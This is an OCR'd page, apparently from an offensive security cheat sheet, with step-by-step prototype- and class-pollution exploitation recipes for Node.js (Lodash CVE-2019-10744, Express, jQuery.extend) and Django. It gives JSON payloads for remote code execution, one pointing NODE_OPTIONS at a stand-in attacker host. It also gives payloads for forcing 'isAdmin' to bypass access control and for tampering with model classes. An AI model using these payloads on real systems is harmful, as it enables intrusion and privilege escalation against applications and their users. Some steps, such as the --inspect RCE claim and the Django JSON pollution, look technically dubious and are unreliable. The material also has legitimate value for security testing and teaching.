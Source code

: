 - **Real-world exploitation examples**
  1. **Exploiting Node.js applications**:
     - **Lodash pollution (CVE-2019-10744)**:
       - Step 1: Identify an application using a vulnerable Lodash version
       - Step 2: Create a payload targeting the merge function:
       ```json
       {
         "__proto__": {
           "shell": "node",
           "NODE_OPTIONS": "--inspect=attackers-server.com"
         }
       }
       ```
       - Step 3: Send the payload to an endpoint using lodash.merge
       - Step 4: Trigger functionality that uses child_process
       - Step 5: Observe RCE through the pollution

     - **Express.js error handling**:
       - Step 1: Pollute the status code property:
       ```json
       {
         "__proto__": {
           "statusCode": 500,
           "status": 500
         }
       }
       ```
       - Step 2: Induce an error in the application
       - Step 3: Observe if the error response uses the polluted status code
       - Step 4: Escalate to more impactful property pollution

     - **jQuery extend pollution**:
       - Step 1: Identify an application using jQuery.extend with deep copy
       - Step 2: Create a payload targeting the extend function:
       ```json
       {
         "__proto__": {
           "isAdmin": true
         }
       }
       ```
       - Step 3: Send the payload to an endpoint using jQuery.extend
       - Step 4: Check if access control checks are now bypassed

  2. **Exploiting Python applications**:
     - **Django class pollution example**:
       - Step 1: Identify a Django app with unsafe deserialization
       - Step 2: Create a payload targeting model class attributes:
       ```json
       {
         "__class__": {
           "__qualname__": "PollutedModel"
         }
       }
       ```
       - Step 3: Send the payload to a vulnerable view
       - Step 4: Check if the model class was successfully modified
       - Step 5: Escalate to targeting `__init__` or other dangerous attributes
